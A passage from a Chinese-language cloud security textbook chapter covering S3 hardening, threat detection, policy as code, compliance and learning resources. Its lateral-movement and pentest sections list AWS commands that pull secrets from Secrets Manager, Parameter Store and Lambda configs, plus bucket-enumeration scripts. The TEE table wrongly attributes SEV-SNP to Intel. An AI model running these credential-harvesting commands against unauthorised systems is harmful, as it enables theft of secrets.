1. SSRF 可以通过元数据服务放大为凭证窃取
2. IAM 最小权限原则至关重要
3. S3 Bucket 策略需要严格审查
```

#### 2.3.2 存储安全加固

```bash
# AWS S3 安全加固
# 1. 阻止所有公开访问（账户级别）
aws s3control put-public-access-block \
  --account-id 123456789012 \
  --public-access-block-configuration \
  BlockPublicAcls=true,IgnorePublicAcls=true,BlockPublicPolicy=true,RestrictPublicBuckets=true

# 2. 启用默认加密
aws s3api put-bucket-encryption --bucket my-bucket \
  --server-side-encryption-configuration '{
    "Rules": [{"ApplyServerSideEncryptionByDefault": {"SSEAlgorithm": "aws:kms"}}]
  }'

# 3. 启用访问日志
aws s3api put-bucket-logging --bucket my-bucket \
  --bucket-logging-status '{
    "LoggingEnabled": {
      "TargetBucket": "audit-logs",
      "TargetPrefix": "s3-access/"
    }
  }'

# 4. 启用版本控制（防删除）
aws s3api put-bucket-versioning --bucket my-bucket \
  --versioning-configuration Status=Enabled

# 5. 设置对象锁定（WORM - Write Once Read Many）
aws s3api put-object-lock-configuration --bucket my-bucket \
  --object-lock-configuration '{
    "ObjectLockEnabled": true,
    "Rule": {"DefaultRetention": {"Mode": "COMPLIANCE", "Years": 7}}
  }'
```

### 2.4 云环境横向移动

#### 2.4.1 横向移动技术

在云环境中，横向移动与传统网络有显著不同——身份（Identity）取代了网络位置：



**AWS 横向移动实战：**

```bash
# 1. 枚举当前角色能 AssumeRole 的目标
aws sts get-caller-identity

# 2. 检查 Lambda 函数的环境变量（可能包含凭证）
aws lambda list-functions | jq '.Functions[].FunctionName'
aws lambda get-function-configuration --function-name prod-app

# 3. 检查 Secrets Manager
aws secretsmanager list-secrets
aws secretsmanager get-secret-value --secret-id prod/database

# 4. 检查 Systems Manager Parameter Store
aws ssm describe-parameters
aws ssm get-parameter --name /prod/database/password --with-decryption

# 5. 检查 EC2 User Data（可能包含启动脚本和凭证）
aws ec2 describe-instance-attribute --instance-id i-xxx --attribute userData

# 6. 通过 CloudFormation 模板获取敏感信息
aws cloudformation list-stacks
aws cloudformation get-template --stack-name prod-infra
```

### 2.5 云原生威胁检测

#### 2.5.1 日志分析与威胁检测

**CloudTrail 日志分析（AWS）：**

```python
# 使用 Athena 查询 CloudTrail 日志
# 查询所有控制台登录失败
QUERY = """
SELECT eventTime, eventName, userIdentity.userName,
       sourceIPAddress, errorCode, errorMessage
FROM cloudtrail_logs
WHERE eventName = 'ConsoleLogin'
  AND errorCode IS NOT NULL
  AND eventTime > '2026-06-01'
ORDER BY eventTime DESC
"""

# 查询异常 API 调用（非常见时段、非常见 IP）
QUERY_ANOMALY = """
SELECT userIdentity.userName, sourceIPAddress,
       eventName, count(*) as call_count
FROM cloudtrail_logs
WHERE eventTime > date_add('day', -7, current_date)
  AND userIdentity.userName IS NOT NULL
GROUP BY userIdentity.userName, sourceIPAddress, eventName
HAVING count(*) > 100
ORDER BY call_count DESC
"""

# 查询根账户使用
QUERY_ROOT = """
SELECT eventTime, eventName, sourceIPAddress,
       userAgent, errorCode
FROM cloudtrail_logs
WHERE userIdentity.type = 'Root'
  AND eventTime > date_add('day', -30, current_date)
ORDER BY eventTime DESC
"""
```

**GuardDuty 自定义威胁情报：**

```bash
# 添加自定义威胁情报（已知恶意 IP 列表）
aws guardduty create-threat-intel-set \
  --detector-id DETECTOR_ID \
  --name "Custom Malicious IPs" \
  --format TXT \
  --location s3://security-bucket/threat-intel/malicious-ips.txt \
  --activate

# malicous-ips.txt 格式（每行一个 CIDR）
# 192.168.1.0/24
# 10.0.0.0/8
```

#### 2.5.2 自动化安全响应

```python
# AWS Lambda 自动化响应 - 公开 S3 桶自动修复
import json
import boto3

def lambda_handler(event, context):
    s3 = boto3.client('s3')
    detail = event['detail']

    # 从 GuardDuty 发现中提取信息
    resource = detail['resource']
    bucket_name = resource['s3BucketDetails'][0]['name']

    print(f"检测到公开 S3 桶: {bucket_name}，正在自动修复...")

    # 1. 阻止公共访问
    s3.put_public_access_block(
        Bucket=bucket_name,
        PublicAccessBlockConfiguration={
            'BlockPublicAcls': True,
            'IgnorePublicAcls': True,
            'BlockPublicPolicy': True,
            'RestrictPublicBuckets': True
        }
    )

    # 2. 删除公开的 Bucket Policy
    try:
        s3.delete_bucket_policy(Bucket=bucket_name)
    except Exception as e:
        print(f"删除策略失败: {e}")

    # 3. 发送通知
    sns = boto3.client('sns')
    sns.publish(
        TopicArn='arn:aws:sns:REGION:ACCOUNT:security-alerts',
        Subject=f'[SECURITY] S3 桶 {bucket_name} 已自动修复',
        Message=f'GuardDuty 检测到 {bucket_name} 被公开访问，已自动阻止公共访问并删除公开策略。'
    )

    return {'statusCode': 200, 'body': '修复完成'}
```

### 2.6 云环境渗透测试方法论

#### 2.6.1 外部黑盒测试流程



**信息收集阶段：**

```bash
# 子域名枚举（发现云资产）
subfinder -d target.com -o subdomains.txt
amass enum -passive -d target.com >> subdomains.txt

# 云存储桶枚举
# AWS
aws s3 ls s3://target-company --no-sign-request
# 使用 lazys3 批量扫描
ruby lazys3.rb target-company

# Azure
# 扫描 Azure Blob 存储
python3 -c "
import requests
names = ['target', 'target-prod', 'target-dev', 'target-staging']
for name in names:
    url = f'https://{name}.blob.core.windows.net/?comp=list'
    r = requests.get(url)
    if r.status_code == 200:
        print(f'[+] Found: {name}')
"

# GCP
# 扫描 GCS 存储桶
python3 -c "
import requests
names = ['target', 'target-prod', 'target-assets']
for name in names:
    url = f'https://storage.googleapis.com/{name}'
    r = requests.get(url)
    if r.status_code == 200:
        print(f'[+] Found: {name}')
"

# 发现暴露的云服务端口
nmap -sV -p 80,443,8080,8443,3389,22 -iL subdomains.txt
```

**已知 CVE 利用框架：**

```bash
# Pacu（AWS 渗透测试框架）
pacu> import iam__enum_users
pacu> run
pacu> import iam__privesc_scan
pacu> run

# ScoutSuite（多云安全审计）
scout aws --regions us-east-1,eu-west-1
scout azure --user-account-subscription
scout gcp --user-account

# CloudBrute（云资产发现）
cloudbrute -d target.com -m storage -k target

# WeirdAAL（AWS 攻击库）
python3 weirdAAL.py -t TARGET -a test_credentials
```

---

## 三、云安全新兴技术深度解析

### 3.1 eBPF 在云安全中的应用

eBPF（extended Berkeley Packet Filter）允许在 Linux 内核中安全地运行自定义代码，无需修改内核源码或加载内核模块。这一技术正在彻底改变云安全监控的方式：

**eBPF 安全应用场景：**

| 场景 | 代表工具 | 原理 |
|------|---------|------|
| 网络策略执行 | Cilium | 在内核层进行 L3/L4/L7 网络过滤 |
| 运行时威胁检测 | Tetragon, Falco | 监控系统调用，检测异常行为 |
| 性能可观测性 | Pixie, Parca | 无侵入式性能分析和 profiling |
| 文件完整性监控 | Tracee | 监控文件访问和修改 |
| 容器行为审计 | Sysdig | 容器级系统调用审计 |

```c
// eBPF 程序示例：检测容器内的敏感文件访问
#include <linux/bpf.h>
#include <bpf/bpf_helpers.h>

// 定义事件结构
struct event_t {
    u32 pid;
    u32 uid;
    char filename[256];
    char comm[16];
};

SEC("tracepoint/syscalls/sys_enter_openat")
int detect_sensitive_access(struct trace_event_raw_sys_enter *ctx) {
    struct event_t event = {};
    char filename[256];

    // 读取文件名
    bpf_probe_read_user_str(filename, sizeof(filename), (void *)ctx->args[1]);

    // 检查是否访问敏感文件
    if (bpf_strncmp(filename, 13, "/etc/shadow") == 0 ||
        bpf_strncmp(filename, 14, "/etc/passwd") == 0) {
        event.pid = bpf_get_current_pid_tgid() >> 32;
        event.uid = bpf_get_current_uid_gid();
        bpf_get_current_comm(event.comm, sizeof(event.comm));
        bpf_probe_read_str(event.filename, sizeof(event.filename), filename);

        // 发送事件到用户空间
        bpf_perf_event_output(ctx, &events, BPF_F_CURRENT_CPU,
                              &event, sizeof(event));
    }
    return 0;
}
```

### 3.2 机密计算（Confidential Computing）

机密计算通过硬件可信执行环境（TEE）在数据使用过程中保护数据的机密性和完整性。这是解决"数据在使用中暴露"问题的关键技术。

**主流 TEE 技术对比：**

| 技术 | 厂商 | 隔离粒度 | 内存加密 | 安全级别 |
|------|------|---------|---------|---------|
| **SGX** | Intel | 应用级（Enclave） | 内存加密引擎 MEE | 高（但侧信道攻击风险） |
| **SEV-SNP** | Intel | 虚拟机级 | AES-128 内存加密 | 高 |
| **CCA** | ARM | 领域级（Realm） | Realm Management Extension | 高 |
| **TDX** | Intel | 虚拟机级 | 总线加密 | 高 |

**Confidential Containers（CoCo）：**

CoCo 项目将机密计算引入 Kubernetes，使得容器工作负载可以在不信任云服务提供商的情况下运行：

```yaml
# 使用 Confidential Containers 运行安全工作负载
apiVersion: v1
kind: Pod
metadata:
  name: confidential-workload
  annotations:
    # 指定使用机密容器运行时
    io.kata-containers.config.hypervisor.default_vcpus: "2"
    io.kata-containers.config.hypervisor.default_memory: "2048"
spec:
  runtimeClassName: kata-cc  # 使用 Confidential Containers 运行时
  containers:
  - name: app
    image: secure-app:v1.0
    securityContext:
      # 容器在 TEE 中运行，云服务商无法访问数据
      privileged: false
```

### 3.3 策略即代码（Policy as Code）

策略即代码将安全策略从"文档中的规则"转变为"可自动执行的代码"：

**OPA（Open Policy Agent）示例：**

```rego
# policy.rego - Kubernetes 准入策略
package kubernetes.admission

deny[msg] {
    input.request.kind.kind == "Pod"
    container := input.request.object.spec.containers[_]
    not startswith(container.image, "registry.example.com/")
    msg := sprintf("容器镜像必须来自受信仓库: %v", [container.image])
}

deny[msg] {
    input.request.kind.kind == "Pod"
    container := input.request.object.spec.containers[_]
    container.securityContext.privileged == true
    msg := sprintf("不允许特权容器: %v", [container.name])
}

deny[msg] {
    input.request.kind.kind == "Pod"
    not input.request.object.spec.containers[_].resources.limits.memory
    msg := "所有容器必须设置内存限制"
}

deny[msg] {
    input.request.kind.kind == "Pod"
    not input.request.object.spec.containers[_].resources.limits.cpu
    msg := "所有容器必须设置 CPU 限制"
}
```

**Kyverno 策略示例（更易读的替代方案）：**

```yaml
apiVersion: kyverno.io/v1
kind: ClusterPolicy
metadata:
  name: restrict-image-registries
spec:
  validationFailureAction: enforce
  background: true
  rules:
  - name: validate-registries
    match:
      any:
      - resources:
          kinds: ["Pod"]
    validate:
      message: "镜像必须来自公司内部仓库 (registry.example.com)"
      pattern:
        spec:
          containers:
          - image: "registry.example.com/*"
          initContainers:
          - image: "registry.example.com/*"
---
apiVersion: kyverno.io/v1
kind: ClusterPolicy
metadata:
  name: require-labels
spec:
  validationFailureAction: enforce
  rules:
  - name: check-required-labels
    match:
      any:
      - resources:
          kinds: ["Deployment", "StatefulSet", "DaemonSet"]
    validate:
      message: "工作负载必须包含 app、team 和 env 标签"
      pattern:
        metadata:
          labels:
            app: "?*"
            team: "?*"
            env: "?*"
```

### 3.4 云安全图谱（Cloud Security Graph）

云安全图谱将云环境中的所有资源、身份、权限和网络关系建模为图结构，用于分析攻击路径和安全风险：



**攻击路径分析示例：**

使用 Neo4j 构建云安全图谱：

```cypher
// 创建云资源节点
CREATE (u:User {name: "dev-user", type: "IAM User"})
CREATE (r:Role {name: "ec2-admin", type: "IAM Role"})
CREATE (ec2:Resource {name: "web-server", type: "EC2", public: true})
CREATE (rds:Resource {name: "prod-db", type: "RDS", sensitive: true})
CREATE (s3:Resource {name: "data-lake", type: "S3", sensitive: true})

// 创建关系
CREATE (u)-[:ASSUME_ROLE]->(r)
CREATE (r)-[:CAN_ACCESS {level: "admin"}]->(ec2)
CREATE (r)-[:CAN_ACCESS {level: "read"}]->(rds)
CREATE (r)-[:CAN_ACCESS {level: "write"}]->(s3)
CREATE (ec2)-[:CONNECTED_TO]->(rds)

// 查询：从外部用户到敏感数据库的所有攻击路径
MATCH path = (start:User {type: "IAM User"})-[*]->(target:Resource {sensitive: true})
RETURN path, length(path) as pathLength
ORDER BY pathLength
```

### 3.5 AI 驱动的云安全

AI 在云安全中的应用正在从辅助工具演变为核心能力：

**异常行为检测模型架构：**



**实际应用中的局限性：**

| 局限性 | 说明 | 应对策略 |
|--------|------|---------|
| **误报率高** | 正常的异常行为（如出差、加班）导致大量误报 | 结合上下文信息，设置合理的基线 |
| **数据质量问题** | 日志不完整或格式不一致影响模型准确性 | 统一日志格式，确保数据完整性 |
| **对抗性攻击** | 攻击者可以模仿正常行为模式逃避检测 | 多模型集成，结合规则引擎 |
| **解释性不足** | 模型输出难以解释，安全团队无法理解告警原因 | 使用可解释模型（SHAP、LIME），提供详细上下文 |
| **延迟问题** | 大规模数据处理可能导致实时检测延迟 | 边缘计算预处理，流式处理架构 |

---

## 四、云安全合规与治理

### 4.1 主要合规框架

| 框架 | 适用范围 | 核心要求 | 云平台支持 |
|------|---------|---------|-----------|
| **ISO 27017** | 云服务安全控制 | 云特定安全控制措施 | AWS/Azure/GCP 均已认证 |
| **ISO 27018** | 云端个人数据保护 | PII 保护控制 | AWS/Azure/GCP 均已认证 |
| **SOC 2 Type II** | 服务组织安全 | 信任服务准则审计 | AWS/Azure/GCP 均已认证 |
| **CSA STAR** | 云安全评估 | CCM 控制矩阵 | 多级认证（自评/第三方/金牌） |
| **FedRAMP** | 美国联邦政府 | 联邦云安全基线 | AWS GovCloud/Azure Government |
| **等保 2.0** | 中国 | 信息安全等级保护 | 华为云/阿里云/腾讯云全面支持 |
| **GDPR** | 欧盟个人数据 | 数据保护和隐私 | 各平台提供 GDPR 合规工具 |

### 4.2 数据主权与本地化策略



**合规技术实现：**

```bash
# AWS：使用 Service Control Policy 限制 Region
{
  "Version": "2012-10-17",
  "Statement": [{
    "Sid": "DenyNonApprovedRegions",
    "Effect": "Deny",
    "NotAction": [
      "iam:*", "organizations:*", "route53:*",
      "support:*", "trustedadvisor:*", "budgets:*",
      "cloudfront:*", "globalaccelerator:*", "waf:*"
    ],
    "Resource": "*",
    "Condition": {
      "StringNotEquals": {
        "aws:RequestedRegion": ["cn-north-1", "cn-northwest-1"]
      }
    }
  }]
}

# Azure：使用 Azure Policy 限制 Region
{
  "if": {
    "allOf": [{
      "field": "location",
      "notIn": ["chinanorth", "chinanorth2", "chinaeast", "chinaeast2"]
    }, {
      "field": "location",
      "notEquals": "global"
    }]
  },
  "then": {
    "effect": "deny"
  }
}
```

### 4.3 云安全治理框架

建立云安全治理体系需要涵盖以下关键领域：

**治理层次模型：**

| 层次 | 职责 | 关键活动 |
|------|------|---------|
| **战略层** | 安全方向和策略制定 | 风险评估、合规要求、安全投资 |
| **管理层** | 策略执行和监督 | 策略实施、培训教育、供应商管理 |
| **执行层** | 日常安全运营 | 漏洞管理、事件响应、配置管理 |
| **技术层** | 安全技术实施 | 安全工具部署、自动化、监控 |

---

## 五、推荐学习资源

### 5.1 书籍

| 书名 | 作者 | 核心内容 | 适用人群 |
|------|------|---------|---------|
| **《Cloud Native Security》** | Chris Binnie, Rory McCune | 云原生安全架构与实践 | 中高级 |
| **《Kubernetes Security and Observability》** | Brendan Creane, Amit Gupta | K8s 安全与可观测性 | 中高级 |
| **《Practical Cloud Security》** | Chris Dotson | 云安全实践方法论 | 初中级 |
| **《Hacking Cloud Infrastructure》** | Rich Mogull | 云基础设施攻防 | 高级 |
| **《Serverless Security》** | Ory Segal, Tal Melamed | 无服务器安全深度分析 | 中高级 |
| **《Cloud Security and Privacy》** | Tim Mather 等 | 云安全与隐私基础理论 | 入门 |

### 5.2 在线资源与社区

| 资源 | 链接 | 说明 |
|------|------|------|
| **CSA 云安全联盟** | https://cloudsecurityalliance.org/ | 云安全研究与最佳实践 |
| **OWASP Cloud-Native Top 10** | https://owasp.org/www-project-cloud-native-application-security/ | 云原生应用安全风险 |
| **MITRE ATT&CK Cloud** | https://attack.mitre.org/matrices/enterprise/cloud/ | 云环境攻击技术知识库 |
| **AWS Well-Architected Security** | https://docs.aws.amazon.com/wellarchitected/latest/security-pillar/ | AWS 安全架构最佳实践 |
| **Kubernetes Security Docs** | https://kubernetes.io/docs/concepts/security/ | K8s 官方安全指南 |
| **CNCF Security TAG** | https://github.com/cncf/tag-security | CNCF 安全技术顾问组 |
| **CloudGoat** | https://github.com/RhinoSecurityLabs/cloudgoat | AWS 攻防靶场 |
| **Terragoat** | https://github.com/bridgecrewio/terragoat | 含漏洞的 Terraform 靶场 |

### 5.3 安全工具全景

#### 5.3.1 审计与合规工具

| 工具 | 功能 | 链接 |
|------|------|------|
| **Scout Suite** | 多云安全审计 | https://github.com/nccgroup/ScoutSuite |
| **Prowler** | AWS/Azure/GCP 安全评估 | https://github.com/prowler-cloud/prowler |
| **kube-bench** | K8s CIS 基准检查 | https://github.com/aquasecurity/kube-bench |
| **CloudSploit** | 云安全配置监控 | https://github.com/aquasecurity/cloudsploit |
| **cartography** | 云资产关系图谱 | https://github.com/lyft/cartography |

#### 5.3.2 漏洞扫描工具

| 工具 | 功能 | 链接 |
|------|------|------|
| **Trivy** | 容器/代码/IaC 全能扫描 | https://github.com/aquasecurity/trivy |
| **Checkov** | IaC 安全扫描（Terraform/CloudFormation/K8s） | https://www.checkov.io/ |
| **Terrascan** | Terraform 合规检查 | https://github.com/tenable/terrascan |
| **tfsec** | Terraform 安全扫描 | https://github.com/aquasecurity/tfsec |
| **Snyk Container** | 容器漏洞扫描与修复建议 | https://snyk.io/ |

#### 5.3.3 运行时安全工具

| 工具 | 功能 | 链接 |
|------|------|------|
| **Falco** | 云原生运行时威胁检测 | https://falco.org/ |
| **Tetragon** | eBPF 运行时安全 | https://tetragon.io/ |
| **Cilium** | eBPF 网络策略与安全 | https://cilium.io/ |
| **KubeArmor** | 容器运行时强制执行 | https://kubearmor.io/ |
| **NeuVector** | 容器安全平台（已被 SUSE 收购） | https://neuvector.com/ |

#### 5.3.4 渗透测试工具

| 工具 | 功能 | 链接 |
|------|------|------|
| **Pacu** | AWS 渗透测试框架 | https://github.com/RhinoSecurityLabs/pacu |
| **ROADtools** | Azure AD 攻击工具 | https://github.com/dirkjanm/ROADtools |
| **Gato** | GitHub Actions 攻击工具 | https://github.com/praetorian-inc/gato |
| **cloud_enum** | 跨云资产枚举 | https://github.com/initstring/cloud_enum |
| **enumerate-iam** | AWS IAM 权限暴力枚举 | https://github.com/andresriancho/enumerate-iam |

---

## 六、思考题与实践指南

### 6.1 理论思考题

**1. 共享责任模型的边界在哪里？**

以 AWS EC2（IaaS）、Azure App Service（PaaS）和 Salesforce（SaaS）为例：
- EC2：AWS 负责物理设施和虚拟化层安全；用户负责操作系统补丁、防火墙配置、应用安全、数据加密
- App Service：Azure 负责操作系统和运行时环境；用户负责应用代码、数据安全、身份认证配置
- Salesforce：Salesforce 负责平台基础设施和应用安全；用户负责用户管理、数据分类、共享策略配置

思考：在 CaaS（如 EKS）和 FaaS（如 Lambda）模型中，责任边界又在哪里？

**2. 容器逃逸的攻击面与防御纵深**

容器逃逸的根本原因是什么？从 Namespaces、Cgroups、Capabilities 到内核，每一层的隔离强度如何？为什么 gVisor 和 Kata Containers 能够提供更强的隔离？

**3. 零信任在云中如何落地？**

零信任的核心假设是"永远不信任，持续验证"。在云环境中：
- 身份作为新边界的含义是什么？
- 短生命周期凭证如何替代长期密钥？
- 微分段如何在网络层实现零信任？
- 服务网格的 mTLS 如何实现传输层零信任？

**4. 为什么 IAM 是云安全的核心？**

在传统安全中，网络是边界；在云中，身份是边界。过度授权、角色链利用、临时凭证泄露等问题说明了什么？如何设计一个最小权限的 IAM 体系？

### 6.2 实践练习

| 练习 | 描述 | 难度 | 工具 |
|------|------|------|------|
| **AWS 靶场攻防** | 使用 CloudGoat 完成 IAM 权限提升场景 | ★★★ | CloudGoat |
| **K8s 安全加固** | 对照 kube-bench 报告修复 CIS 基准问题 | ★★☆ | kube-bench |
| **容器逃逸实验** | 在受控环境中复现容器逃逸漏洞 | ★★★★ | Docker + CVE PoC |
| **IaC 安全扫描** | 使用 Checkov 扫描 Terraform 项目并修复 | ★★☆ | Checkov |
| **镜像安全** | 扫描并加固一个包含已知漏洞的 Docker 镜像 | ★★☆ | Trivy + Dockerfile |
| **多云审计** | 使用 Scout Suite 审计多云环境 | ★★★ | Scout Suite |
| **策略即代码** | 用 OPA/Kyverno 编写 K8s 准入策略 | ★★★ | OPA/Kyverno |

### 6.3 认证路径建议



---

> **本章寄语**：云计算正在重新定义 IT 基础设施和安全模型。安全不再是网络边界的守卫，而是身份、数据和工作负载的持续保护。掌握云安全不仅要理解技术细节，更要建立"假设入侵"的安全思维——设计系统时假设任何组件都可能被攻破，然后在此基础上构建纵深防御。记住：最好的云安全架构，是让攻击者即使突破了外层防线，也无法触及核心资产的架构。
